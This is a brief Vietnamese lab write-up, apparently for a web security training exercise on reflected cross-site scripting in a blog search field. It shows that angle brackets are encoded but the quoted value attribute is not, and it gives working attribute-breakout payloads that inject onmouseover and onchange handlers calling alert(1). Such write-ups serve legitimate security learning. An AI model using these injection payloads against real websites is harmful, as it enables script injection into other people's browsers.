Xin chào !!!
 đây là đề bài của phần này
 ![Alt text](image-14.png)
Đề có bảo là trong chức năng search có chứa lỗ hổng và dấu ">" thì sẽ bị urlEncode thành như này và tôi đã thử xem thì đúng thật
![Alt text](image-15.png)
 Nhưng mà khoan đã chú ý ô input ở dưới
 ![Alt text](image-16.png)

                                        <input type=text placeholder='Search the blog...' name=search value="&gt;">
thử injection chỗ này xem
     <input type=text placeholder='Search the blog...' name=search value="" onchange="alert(1)">
                                        " onmouseover="alert(1) or " onchange="alert(1)
Cả 2 phần này đều đúng nha

@@ chúc các bạn thành công